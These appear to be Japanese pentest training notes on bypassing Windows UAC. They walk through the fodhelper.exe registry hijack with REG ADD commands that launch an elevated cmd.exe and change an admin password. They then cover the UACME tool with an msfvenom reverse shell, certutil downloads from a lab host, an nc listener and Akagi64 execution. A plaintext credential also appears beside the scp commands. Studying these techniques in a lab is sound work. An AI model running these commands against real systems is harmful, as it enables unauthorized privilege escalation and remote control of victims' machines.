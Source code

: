 # UACByPass

### fodhelper.exe

オペレーティングシステムの言語変更を管理するMicrosoftのサポートアプリケーションであるfodhelper.exeを利用したUACbyPass.

「アプリと機能」のWindows設定画面で「オプション機能の管理」オプションを選択するたびに、このアプリケーションが起動する。

<img src="img/Windows/UACByPass/image-20230106075428758.png" alt="image-20230106075428758" style="zoom:67%;" />

* アプリケーションマニフェスト（プログラム起動時にOSがそのプログラムをどのように処理するかを示す情報を含む XML ファイル）の検査をする

  ```cmd
  cd C:\Tools\privilege_escalation\Sysintern
  sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
  ```

  ![image-20230106075632722](img/Windows/UACByPass/image-20230106075632722.png)

  ![](img/UACByPass/image-20230106075632722-1673224263122-2.png)

  * administrator アクセストークンが必要
  * autoelevate フラグが true に設定されているため、管理者ユーザーに同意を求めることなく、実行ファイルが自動的に高信頼性に昇格することが可能

* procmon（Sysinternals suite）で「NAME NOT FOUND」のレジストリを調査する

  * procmonを起動したのち、fodhelper.exeを再起動する

  * Filterで絞り込みを行う

    ![image-20230106080656214](img/Windows/UACByPass/image-20230106080656214.png)

    ![](img/UACByPass/image-20230106080656214-1673224302083-5.png)

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーが存在しないことがわかる。

    ![image-20230106080749582](img/Windows/UACByPass/image-20230106080749582.png)

    ![](img/UACByPass/image-20230106080749582-1673224338455-8.png)

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーの検索のあと、**HKEY_CLASSES_ROOT**（HKCR）ハイブで同じキーにアクセスし、成功している。

    レジストリーエディターでも確認することができる（regedit)

    ![image-20230106080943088](img/Windows/UACByPass/image-20230106080943088.png)

    ![](img/UACByPass/image-20230106080943088-1673224359152-11.png)
    
    詳細を調べるとDelegateExecuteキーの値を特定のCOMクラスIDに設定したのち(Default)動作を実行するという流れのよう

* HKCUハイブ内のms-settingレジストリキーを登録する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  
  ---
  C:\Tools\privilege_escalation\SysinternalsSuite>REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  The operation completed successfully.
  ```

* 次にDelegateExecuteエントリーを追加する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
  ```

  * /v：値の名前を指定
  * /t：型を指定

  ![image-20230106081615681](img/Windows/UACByPass/image-20230106081615681.png)

  ![](img/UACByPass/image-20230106081615681-1673224378809-14.png)

* procmonのフィルターを「SUCCESS」に変更する。

  ![image-20230106081707074](img/Windows/UACByPass/image-20230106081707074.png)

  ![](img/UACByPass/image-20230106081707074-1673224399075-17.png)

  （Default)のレジストリーキーが実行されている

* 新しいレジストリー値を指定する

  ```
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
  ```

* 再度fodhelper.exeを実行するとコマンドプロンプトが立ち上がる

  ![image-20230106081939053](img/Windows/UACByPass/image-20230106081939053.png)

  ![](img/UACByPass/image-20230106081939053-1673224430178-20.png)

  パスワード変更もできることを確認する
  
  ```
  net user admin Ev!lpass
  ```
  
  

### UACME

https://github.com/hfiref0x/UACME

3. UACMeのリポジトリをクーロンする
     * ※masterブランチではなく、v3.2.xのブランチを使用すること

       ![image-20230114124559887](img/UACByPass/image-20230114124559887.png)
       
     * ※Akagi64.exeのコンパイル時はvisual studioのバージョンにあったSDKをプロパティから設定すること
     
       ![image-20230114124611192](img/UACByPass/image-20230114124611192.png)
     
  4. UAC bypass用のリバースシェルを作成する

     ```plaintext
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.17.20.12 LPORT=10010 -f exe > rev_10010_iga.exe
     ```
     
  5. Akagi64.exeとリバースシェルを配送する

     ```plaintext
     # kali
     /home/kali/Documents/tuikakensyu
     scp Akagi64.exe  test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     
     # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/Akagi64.exe" C:\tmp\igarashi\Akagi64.exe
     ```

     ```plaintext
     # kali
     scp rev_10010_iga.exe test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     
     # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/rev_10010.exe" C:\tmp\igarashi\rev_10010_iga.exe
     ```
     
  6. UACMeを実行する

     ```plaintext
     # C2Server
     nc -lvnp 10010
     C:\Users\makise\AppData\Roaming>Akagi64_iga.exe 33 C:\Users\makise\AppData\Roaming\rev_10010_iga.exe
     ```
     
  7. 権限昇格できたことを確認する

     ```plaintext
     whoami /all
     ```
     * Mandatory LabelがHighになっていること

     * sedebugprivilegeがついていること
     
